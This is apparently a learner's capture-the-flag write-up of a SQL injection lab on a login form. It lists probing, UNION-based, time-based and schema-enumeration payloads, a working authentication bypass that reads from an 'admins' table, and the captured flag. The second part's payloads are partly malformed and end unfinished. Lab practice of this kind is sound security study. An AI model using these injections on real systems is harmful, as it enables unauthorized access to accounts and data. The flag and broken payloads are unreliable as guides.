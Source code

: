 This lab sends me two messages, one is invalid password and another is invalid username



This doesn't give me errors;
```
' order by 1 -- -
```
This returns me "invalid password"
```
' union select NULL -- -
```
Invalid password too..
```
' union select version() -- -
```

Its Mysql the database because this was true and it worked

```
' union SELECT if (1=1,sleep(10),'a') -- -
```


' union SELECT  FROM information_schema.tables  IF('1'='1' ,SLEEP(10),'a') -- -



OK, the table name was "admins" and i have to search a solution over there .. this was one very creative

```
' UNION SELECT "xyz" as password FROM admins where ''='';--
```
so.. as we know the input of users are vulnerable and not the passwords.. so we put xyz as password and we can log in.... not so easy but it worked

this is the flag 

```
^FLAG^5bb718eceeecd14e2ce19bf5361d1a4961219f0470ca5a40fde1b1b74e1b578c$FLAG$
```


FLAG 2


This worked for me :

This doesnt give me errors
```
' union select schema_name FROM INFORMATION_SCHEMA.SCHEMATA -- -
```

So, now i need to guess the name of this database...

This doesnt give me error, but i need to know
```
' union select (substring(schema_name ,1,1)='a') from information_schema.schemata -- -
```

This do not work 
```
' union select IF((substring(schema_name ,1,1)='b') from information_schema.schemata,SLEEP(10),'a') -- -
```
I will try the dns lookup with data exfiltration...

```
' union select IF(substring(information_schema.schemata ,1,1)='b' ,SLEEP(10),'a') -- -
```

I will quit now.. i cant do it 